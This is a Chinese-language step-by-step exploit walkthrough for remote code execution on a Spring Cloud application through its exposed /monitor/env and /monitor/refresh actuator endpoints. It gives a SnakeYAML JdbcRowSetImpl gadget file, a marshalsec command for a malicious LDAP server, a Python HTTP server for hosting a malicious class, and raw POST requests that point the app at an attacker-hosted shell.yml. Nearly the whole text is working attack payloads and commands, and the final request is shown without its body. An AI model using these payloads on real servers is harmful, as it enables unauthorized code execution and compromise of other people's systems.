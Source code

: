 首先在VPS上准备一个yml文件：

```yaml
foo: !!com.sun.rowset.JdbcRowSetImpl
  dataSourceName: "ldap://localhost:1099/EvalClass"
  autoCommit: true
```

然后用marshalsec起一个恶意的Ldap服务：

```sh
java -cp marshalsec.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1/#EvalClass 1099
```

再准备一个恶意的class文件：

![image-20210819164649769](/media/image-20210819164649769.png)

最后起一个HTTP服务（class文件和shell.yml需要在这个HTTP服务下）：

```sh
python3 -m http.server 80
```

现在开始准备攻击，首先发送如下数据包：

```http
POST /monitor/env HTTP/1.1
Host: 127.0.0.1:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/x-www-form-urlencoded
Cookie: OFBiz.Visitor=10000
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Pragma: no-cache
Cache-Control: no-cache
Content-Length: 58

spring.cloud.bootstrap.location=http://127.0.0.1/shell.yml
```

然后发送如下数据包：

```http
POST /monitor/refresh HTTP/1.1
Host: 127.0.0.1:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/x-www-form-urlencoded
Cookie: OFBiz.Visitor=10000
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Pragma: no-cache
Cache-Control: no-cache
Content-Length: 22


```